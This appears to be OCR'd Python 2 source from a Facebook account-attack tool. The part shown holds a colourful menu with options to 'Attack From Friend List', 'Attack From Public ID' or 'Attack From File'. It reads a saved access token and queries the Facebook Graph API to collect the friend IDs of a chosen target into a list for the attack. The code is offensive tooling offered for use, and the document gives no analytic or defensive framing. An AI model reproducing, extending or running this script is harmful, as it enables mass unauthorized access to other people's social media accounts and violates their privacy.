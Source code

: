 

def super():
    global toket
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91mToken invalid'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print '\x1b[1;32;92m[1] \x1b[1;33;98m\xf0\x9f\x91\x89 \xf0\x9f\x90\xafAttack From Friend List'
    print '\x1b[1;32;92m[2] \x1b[1;33;98m\xf0\x9f\x91\x89 \xf0\x9f\x90\xafAttack From Public ID'
    print '\x1b[1;32;92m[3] \x1b[1;33;98m\xf0\x9f\x91\x89 \xf0\x9f\x90\xafAttack From File'
    print '\x1b[1;32;36m[0] \x1b[1;33;96m\xe2\x80\xbc\xef\xb8\x8fBack'
    pilih_super()


def pilih_super():
    global cekpoint
    global oks
    peak = raw_input('\n\x1b[1;31;40m>>> \x1b[1;97m')
    if peak == '':
        print '\x1b[1;91mFill in correctly'
        pilih_super()
    else:
        if peak == '1':
            os.system('clear')
            print logo
            jalan('\x1b[1;92m[\xf0\x9f\x94\x8d] Getting IDs \xe2\x9c\x94\xef\xb8\x8f \x1b[1;98m.')
            r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
            z = json.loads(r.text)
            for s in z['data']:
                id.append(s['id'])

        elif peak == '2':
            os.system('clear')
            print logo
            idt = raw_input('\x1b[1;96m[*] Enter ID : ')
            try:
                jok = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + toket)
                op = json.loads(jok.text)
                print '\x1b[1;31;37m[\xf0\x9f\x8c\x80] Name : ' + op['name']
            except KeyError:
                print '\x1b[1;37m[\xf0\x9f\x8c\x80] ID Not Found!'
                raw_input('\n\x1b[1;96m[\x1b[1;94mBack\x1b[1;96m]')
                super()

            print '\x1b[1;35;37m[\xf0\x9f\x8c\x80] Getting ID '
            r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + toket)
            z = json.loads(r.text)
            for i in z['data']:
                id.append(i['id'])
